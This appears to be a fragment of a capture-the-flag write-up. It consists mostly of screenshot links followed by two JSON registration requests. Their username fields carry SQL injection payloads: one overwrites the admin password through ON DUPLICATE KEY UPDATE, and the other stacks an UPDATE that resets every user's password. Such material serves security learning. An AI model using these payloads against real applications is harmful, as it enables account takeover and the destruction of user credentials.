








now we need to login as admin

username varchar(255) NOT NULL UNIQUE cant register 2 admin

{
    "username":"admin\",\"admin\") ON DUPLICATE KEY UPDATE password=\"$2b$12$Wv.6cHnG0BxuxZ82/oy2MeEgy2LG6C.O2n6Ig7GwNegw2zGB22dm2\"-- -",
    "password":"admin"
}

{
    "username":"dontuseadminlol2\",\"admin2\");UPDATE users SET password=\"$2b$12$YivQEkejK4SuhdEeKU98B.m6KnPzAvu56/gkmf3J8Uc1xbD7pJe7i\";COMMIT-- -",
    "password":"admin2"
}

